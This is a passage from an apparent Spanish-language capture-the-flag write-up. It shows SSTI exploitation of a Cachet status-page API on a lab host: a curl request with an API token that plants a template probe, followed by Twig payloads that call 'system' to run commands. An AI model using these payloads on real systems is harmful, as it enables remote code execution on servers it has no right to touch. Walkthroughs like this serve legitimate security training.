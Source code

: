 ### Creación de incident con SSTI

```bash
curl -X POST -H "X-Cachet-Token: 7GVCqTY5abrox4" "http://10.10.11.150:8000/api/v1/incidents" \
     -d "visible=0&status=1&name=demo&template={% raw %}{{233*233}}{% endraw %}" | jq


```

![Respuesta SSTI](/secciones/posts/imagenes/catch/save4.png)

### Verificación de ejecución de código

La salida muestra `54289`, confirmando que el código se ejecutó correctamente.

### Remote Code Execution (RCE)

Probamos diferentes payloads:
```bash
{% raw %}
{{["id"]|filter("system")|join(",")}}
{% endraw %}

{% raw %}
{{["id"]|map("system")|join(",")}}
{% endraw %}
```
